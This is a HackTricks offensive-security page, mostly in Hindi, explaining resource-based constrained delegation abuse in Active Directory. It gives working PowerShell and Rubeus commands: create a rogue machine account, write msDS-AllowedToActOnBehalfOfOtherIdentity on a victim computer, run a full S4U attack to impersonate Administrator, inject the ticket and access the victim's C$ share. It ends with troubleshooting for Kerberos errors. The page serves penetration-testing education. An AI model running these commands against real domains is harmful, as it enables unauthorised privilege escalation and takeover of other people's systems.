# Resource-based Constrained Delegation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Basics of Resource-based Constrained Delegation

यह मूल [Constrained Delegation](constrained-delegation.md) के समान है लेकिन **इसके बजाय** किसी **ऑब्जेक्ट** को **किसी सेवा के खिलाफ किसी भी उपयोगकर्ता का अनुकरण करने** के लिए अनुमतियाँ देने के। Resource-based Constrained Delegation **उस ऑब्जेक्ट में सेट करता है जो इसके खिलाफ किसी भी उपयोगकर्ता का अनुकरण कर सकता है**।

इस मामले में, सीमित ऑब्जेक्ट में एक विशेषता होगी जिसे _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ कहा जाता है जिसमें उस उपयोगकर्ता का नाम होगा जो इसके खिलाफ किसी अन्य उपयोगकर्ता का अनुकरण कर सकता है।

इस Constrained Delegation से अन्य डेलीगेशनों में एक और महत्वपूर्ण अंतर यह है कि किसी भी उपयोगकर्ता के पास **एक मशीन खाते पर लिखने के लिए अनुमतियाँ** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) हो सकती हैं जो _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ सेट कर सकता है (अन्य डेलीगेशन के रूपों में आपको डोमेन प्रशासक विशेषाधिकार की आवश्यकता थी)।

### New Concepts

Constrained Delegation में कहा गया था कि **`TrustedToAuthForDelegation`** ध्वज उपयोगकर्ता के _userAccountControl_ मान के अंदर **S4U2Self** करने के लिए आवश्यक है। लेकिन यह पूरी तरह से सच नहीं है।\
वास्तविकता यह है कि भले ही उस मान के बिना, आप किसी भी उपयोगकर्ता के खिलाफ **S4U2Self** कर सकते हैं यदि आप एक **सेवा** हैं (एक SPN है) लेकिन, यदि आपके पास **`TrustedToAuthForDelegation`** है तो लौटाया गया TGS **Forwardable** होगा और यदि आपके पास वह ध्वज नहीं है तो लौटाया गया TGS **Forwardable** नहीं होगा।

हालांकि, यदि **S4U2Proxy** में उपयोग किया गया **TGS** **NOT Forwardable** है तो **basic Constrain Delegation** का दुरुपयोग करने की कोशिश करना **काम नहीं करेगा**। लेकिन यदि आप **Resource-Based constrain delegation** का शोषण करने की कोशिश कर रहे हैं, तो यह काम करेगा (यह एक भेद्यता नहीं है, यह एक विशेषता है, स्पष्ट रूप से)।

### Attack structure

> यदि आपके पास **Computer** खाते पर **लिखने के समकक्ष विशेषाधिकार** हैं तो आप उस मशीन में **विशेषाधिकार प्राप्त पहुँच** प्राप्त कर सकते हैं।

मान लीजिए कि हमलावर के पास पहले से ही **शिकार कंप्यूटर पर लिखने के समकक्ष विशेषाधिकार** हैं।

1. हमलावर एक खाते को **समझौता** करता है जिसमें एक **SPN** है या **एक बनाता है** (“Service A”)। ध्यान दें कि **कोई भी** _Admin User_ बिना किसी अन्य विशेष विशेषाधिकार के **बना सकता है** 10 **Computer objects (**_**MachineAccountQuota**_**)** और उन्हें एक **SPN** सेट कर सकता है। इसलिए हमलावर बस एक Computer object बना सकता है और एक SPN सेट कर सकता है।
2. हमलावर शिकार कंप्यूटर (ServiceB) पर अपने **WRITE विशेषाधिकार** का दुरुपयोग करता है ताकि **resource-based constrained delegation को कॉन्फ़िगर किया जा सके ताकि ServiceA किसी भी उपयोगकर्ता का अनुकरण कर सके** उस शिकार कंप्यूटर (ServiceB) के खिलाफ।
3. हमलावर Rubeus का उपयोग करके **पूर्ण S4U हमला** (S4U2Self और S4U2Proxy) Service A से Service B के लिए एक उपयोगकर्ता के लिए **विशेषाधिकार प्राप्त पहुँच के साथ Service B** का उपयोग करता है।
1. S4U2Self (समझौता/बनाए गए खाते से SPN): मुझसे **Administrator का TGS मांगें** (Not Forwardable)।
2. S4U2Proxy: पिछले चरण के **not Forwardable TGS** का उपयोग करके **Administrator** से **शिकार होस्ट** के लिए एक **TGS** मांगें।
3. भले ही आप एक not Forwardable TGS का उपयोग कर रहे हों, क्योंकि आप Resource-based constrained delegation का शोषण कर रहे हैं, यह काम करेगा।
4. हमलावर **पास-दी-टिकट** कर सकता है और **उपयोगकर्ता का अनुकरण** कर सकता है ताकि **शिकार ServiceB** तक पहुँच प्राप्त कर सके।

डोमेन के _**MachineAccountQuota**_ की जाँच करने के लिए आप उपयोग कर सकते हैं:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## हमला

### कंप्यूटर ऑब्जेक्ट बनाना

आप [powermad](https://github.com/Kevin-Robertson/Powermad)** का उपयोग करके डोमेन के अंदर एक कंप्यूटर ऑब्जेक्ट बना सकते हैं:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### R**esource-based Constrained Delegation को कॉन्फ़िगर करना**

**activedirectory PowerShell मॉड्यूल का उपयोग करना**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**पॉवerview का उपयोग करना**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### एक पूर्ण S4U हमले का प्रदर्शन

सबसे पहले, हमने नए कंप्यूटर ऑब्जेक्ट को पासवर्ड `123456` के साथ बनाया, इसलिए हमें उस पासवर्ड का हैश चाहिए:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
यह उस खाते के लिए RC4 और AES हैश प्रिंट करेगा।\
अब, हमला किया जा सकता है:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
आप Rubeus के `/altservice` पैरामीटर का उपयोग करके केवल एक बार पूछकर अधिक टिकट उत्पन्न कर सकते हैं:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
ध्यान दें कि उपयोगकर्ताओं के पास "**Cannot be delegated**" नामक एक विशेषता होती है। यदि किसी उपयोगकर्ता की यह विशेषता True है, तो आप उसकी नकल नहीं कर पाएंगे। यह संपत्ति ब्लडहाउंड के अंदर देखी जा सकती है।
{% endhint %}

### Accessing

अंतिम कमांड लाइन **पूर्ण S4U हमले को निष्पादित करेगी और **TGS** को Administrator से पीड़ित होस्ट में **मेमोरी** में इंजेक्ट करेगी।\
इस उदाहरण में, Administrator से **CIFS** सेवा के लिए एक TGS का अनुरोध किया गया था, इसलिए आप **C$**: तक पहुँच सकेंगे।
```bash
ls \\victim.domain.local\C$
```
### विभिन्न सेवा टिकटों का दुरुपयोग

[**उपलब्ध सेवा टिकटों के बारे में यहाँ जानें**](silver-ticket.md#available-services)।

## केर्बेरोस त्रुटियाँ

* **`KDC_ERR_ETYPE_NOTSUPP`**: इसका मतलब है कि केर्बेरोस को DES या RC4 का उपयोग नहीं करने के लिए कॉन्फ़िगर किया गया है और आप केवल RC4 हैश प्रदान कर रहे हैं। Rubeus को कम से कम AES256 हैश प्रदान करें (या बस इसे rc4, aes128 और aes256 हैश प्रदान करें)। उदाहरण: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: इसका मतलब है कि वर्तमान कंप्यूटर का समय DC के समय से भिन्न है और केर्बेरोस सही तरीके से काम नहीं कर रहा है।
* **`preauth_failed`**: इसका मतलब है कि दिया गया उपयोगकर्ता नाम + हैश लॉगिन करने के लिए काम नहीं कर रहे हैं। आप हैश उत्पन्न करते समय उपयोगकर्ता नाम के अंदर "$" डालना भूल गए होंगे (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: इसका मतलब हो सकता है:
* जिस उपयोगकर्ता का आप अनुकरण करने की कोशिश कर रहे हैं, वह इच्छित सेवा तक पहुँच नहीं सकता (क्योंकि आप इसका अनुकरण नहीं कर सकते या क्योंकि इसके पास पर्याप्त विशेषाधिकार नहीं हैं)
* मांगी गई सेवा मौजूद नहीं है (यदि आप winrm के लिए एक टिकट मांगते हैं लेकिन winrm चल नहीं रहा है)
* बनाए गए fakecomputer ने कमजोर सर्वर पर अपने विशेषाधिकार खो दिए हैं और आपको उन्हें वापस देना होगा।

## संदर्भ

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) जांचें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
